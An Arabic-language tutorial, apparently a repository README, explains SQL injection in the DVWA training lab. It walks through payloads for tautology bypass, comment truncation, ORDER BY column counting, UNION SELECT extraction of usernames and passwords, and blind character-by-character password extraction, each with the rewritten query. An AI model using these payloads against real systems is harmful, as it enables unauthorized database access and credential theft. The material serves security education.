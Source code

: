
# 🔐 شرح SQL Injection باستخدام DVWA

هذا الدليل يشرح كيف تعمل ثغرة SQL Injection داخل تطبيق DVWA، وبالتحديد كيف تؤدي الحمولة (`OR '1'='1`) إلى إرجاع جميع المستخدمين من قاعدة البيانات.

---

## 📌 الشكل الطبيعي للاستعلام في DVWA (مستوى Low)

الاستعلام داخل التطبيق غالبًا ما يكون على الشكل التالي:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```

إذا كتبنا في الرابط:

```
?id=1
```

سيصبح الاستعلام:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1'
```

🟢 هذا استعلام سليم يرجع بيانات المستخدم برقم 1 فقط.

---

## ⚠️ عند استخدام حمولة SQL Injection:

```
?id=1' OR '1'='1
```

يصبح شكل الاستعلام كالتالي:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1'
```

### ✅ التحليل:

- `user_id = '1'` قد تكون خاطئة.
- `OR '1'='1'` دائمًا تعطي `TRUE`.
- بالتالي، الشرط ككل دائمًا **صحيح**.
- والنتيجة: **ترجع قاعدة البيانات جميع الصفوف** من جدول المستخدمين.

---

## 💥 النتيجة

تُرجع قاعدة البيانات كل المستخدمين لأن شرط `WHERE` لم يعد يفلتر النتائج بشكل صحيح.

> "هات لي المستخدم برقم 1، أو أي صف لأن `'1'='1'` صحيحة دائمًا."

---

## 📊 تمثيل توضيحي

| user_id | نتيجة الشرط (`user_id='1' OR '1'='1'`) | يتم الإرجاع؟ |
|---------|----------------------------------------|---------------|
| 1       | TRUE OR TRUE                            | ✅ نعم        |
| 2       | FALSE OR TRUE                           | ✅ نعم        |
| 3       | FALSE OR TRUE                           | ✅ نعم        |
| ...     | ...                                     | ✅ نعم        |

---

## 🎯 الهدف من استخدام هذه الحمولة

- التحقق مما إذا كان التطبيق **معرضًا لـ SQL Injection**.
- إظهار أن التطبيق لا يُفلتر مدخلات المستخدم.
- التمكن من **تعديل الاستعلام** الأصلي وتنفيذه كما نريد.

---

## 📚 ملاحظات إضافية

- هذه التقنية تنجح فقط في مستوى الحماية **Low** داخل DVWA.
- في المستويات الأعلى مثل **Medium** أو **High**، ستحتاج إلى تقنيات أكثر تقدمًا مثل **Blind SQLi**.

---

> 💡 للتجريب العملي، غيّر مستوى DVWA إلى Low وابدأ بإدخال الحمولات من المتصفح ولاحظ النتيجة.

---

# 🚀 شرح حمولات SQL Injection إضافية في DVWA

## 🔹 حمولة 2: تعليق الاستعلام

### الحمولة:
```
?id=1' --
```

### النتيجة:

يصبح الاستعلام كالتالي:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' --'
```

### ✅ التحليل:

- `--` هو **تعليق في SQL**.
- كل ما يأتي بعد `--` يتم تجاهله.
- هذا يسمح لنا **بإغلاق الاقتباس المفرد** وتعليق أي جزء باقي من الاستعلام.
- إذا كان هناك كود SQL بعد `user_id = '$id'` (مثل اقتباس آخر أو شروط إضافية)، فلن يتم تنفيذه.

---

## 🔹 حمولة 3: تحديد عدد الأعمدة باستخدام ORDER BY

### الحمولة:
```
?id=1' ORDER BY 3 --
```

### النتيجة:

الاستعلام يصبح:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' ORDER BY 3 --'
```

### ✅ التحليل:

- `ORDER BY 3` تطلب ترتيب النتائج حسب العمود الثالث.
- إذا كان عدد الأعمدة في الاستعلام أقل من 3، **ستظهر رسالة خطأ**.
- هذا يستخدم لاكتشاف **عدد الأعمدة** الفعلي في الاستعلام (مفيد في هجوم UNION).

---

## 🔹 حمولة 4: استخدام UNION SELECT لاستخراج بيانات من جدول آخر

### الحمولة:
```
?id=1' UNION SELECT 1, username, password FROM users --
```

### النتيجة:

الاستعلام يصبح:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1'
UNION SELECT 1, username, password FROM users --'
```

### ✅ التحليل:

- `UNION` يسمح لنا بجلب نتائج من استعلام آخر، بشرط أن **يكون عدد الأعمدة مساويًا**.
- هنا نفترض أن عدد الأعمدة في الاستعلام الأصلي هو 3.
- `1` هو مجرد placeholder للعمود الأول، ونعرض بعدها `username` و`password` من جدول `users`.
- النتيجة: تعرض DVWA جدول يحتوي أسماء المستخدمين وكلمات السر.

---

## 🔹 حمولة 5: Blind SQL Injection (استعلام أعمى)

### الحمولة:
```
?id=1' AND 1=1 --
```
و
```
?id=1' AND 1=2 --
```

### ✅ التحليل:

- في الأولى: الشرط صحيح → تظهر النتائج.
- في الثانية: الشرط خاطئ → لا تظهر نتائج.
- إذا لاحظت اختلافًا في الرد، فالتطبيق قد يكون معرضًا لـ **Blind SQLi**.

---

## 🔹 حمولة 6: استخراج كلمة مرور باستخدام Blind SQLi حرفًا حرفًا

### مثال:
```
?id=1' AND SUBSTRING((SELECT password FROM users WHERE user_id=1), 1, 1) = 'a' --
```

### ✅ التحليل:

- يتم التحقق مما إذا كان **أول حرف** من كلمة مرور المستخدم برقم 1 هو `'a'`.
- إذا ظهر رد مختلف (أو لم يظهر)، نعرف هل التحقق نجح أم لا.
- يمكننا استخدام سكربت لتكرار المحاولة واستخراج كلمة المرور بالكامل.

---

> 🛠️ هذه الحمولات تفترض أن الحماية في DVWA على مستوى **Low أو Medium**. في مستوى **High**، سيكون هناك فلترة أو استخدام Prepared Statements تمنع التنفيذ.
